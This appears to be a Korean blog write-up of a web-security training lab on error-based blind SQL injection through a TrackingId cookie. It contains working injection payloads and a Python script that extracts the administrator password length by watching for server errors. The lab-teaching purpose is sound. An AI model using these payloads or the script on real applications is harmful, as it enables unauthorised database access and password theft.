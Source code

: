몇몇의 애플리케이션은 SQL 쿼리를 수행하나 쿼리가 어떠한 데이터를 반환하는지를 제외하고는 동작을 바꾸지 않기도 한다. 이전 섹션에서의 기술은 동작하지 않을 것인데 이는 다른 boolean 조건을 주입하는 것이 애플리케이션의 응답에 차이를 만들지 않기 때문이다.

<br>

종종 애플리케이션이 SQL 에러를 발생시키는지에 따라 다른 응답을 반환하도록 유도하는 것이 가능하다. 조건이 참일 때 데이터베이스 에러를 발생시키도록 쿼리를 수정할 수 있다. 데이터베이스에서 처리되지 않은 오류가 발생하면 오류 메시지와 같은 애플리케이션 응답에서 차이가 발생하는 경우가 많다. 이는 삽입된 조건의 참거짓 여부를 추론할 수 있도록 해준다.

<br>

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

이것이 동작하는 것을 보기 위해서는 위처럼 `TrackingId` 쿠키 값을 포함하여 차례로 요청을 전송한다고 가정해보자. 이러한 입력은 `CASE` 키워드를 사용하여 조건을 테스트하고 어떤 표현식이 참인지에 따라 다른 표현식을 반환한다.

<br>

- 첫 번째 입력에서 `CASE` 표현식은 `'a'`를 평가하고 어떠한 에러도 발생시키지 않는다.
- 두 번째 입력에서 `1/0`로 평가되어 divide-by-zero 에러를 발생시킨다.

이 에러가 애플리케이션의 응답에 차이를 발생시킨다면, 이를 이용하여 삽입된 조건문이 참이라는 것을 결정할 수 있다.

<br>

`xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

이 방법을 사용하여 한 번에 하나의 문자를 테스트함으로써 데이터를 조회할 수 있다.

<br>

## 🚩Lab: Blind SQL injection with conditional errors

우선 메인페이지에 접속하여 포함된 쿠키 값을 살펴보면 `TrackingId`라는 이름의 쿠키가 설정되어 있는 것을 확인할 수 있다.

<br>

쿠키 값을 `bAKMSIzJgUpF1ga9' AND 'a'='b`로 하여 요청을 하면 조건문이 거짓임에도 웹 사이트에 아무런 변화가 발생하지 않는다. 그렇다면 이전 랩에서 진행한 방법으로는 Blind SQL injection을 수행할 수 없다.

<br>

그러나 쿠키 값을 `bAKMSIzJgUpF1ga9' AND 1/0 --`로 하여 요청을 보내면 divide-by-zero 에러가 발생하기에 웹 사이트에서 Internal Server Error를 확인할 수 있다. 이렇게 에러의 발생 유무에 따라 조건문을 추가하여 Error-based SQL 인젝션을 진행해보자.

<br>

`TrackingId=bAKMSIzJgUpF1ga9' AND (SELECT CASE WHEN length(password) <> 1 THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --`

우선 패스워드의 길이를 알기 위해서 위와 같은 페이로드를 작성할 수 있다. 만약 패스워드의 길이가 1이 아니라면 `to_char(1/0)`을 수행하여 에러를 발생시킬 것이다. 이렇게 1씩 늘려가며 패스워드의 길이를 알아내는 Python 코드를 작성할 수 있다.


<br>

```python
import requests

url = 'https://0aa900aa038314dd80f6443500f100a4.web-security-academy.net/'
len = 1

while True:
    headers={"Cookie": f"TrackingId=bAKMSIzJgUpF1ga9' AND (SELECT CASE WHEN length(password) <> {len} THEN to_char(1/0) ELSE 'a' END FROM users WHERE username='administrator')='a' --"}

    response = requests.get(url, headers=headers)
    print(len)

    if 'Internal Server Error' in response.text:
        len += 1
```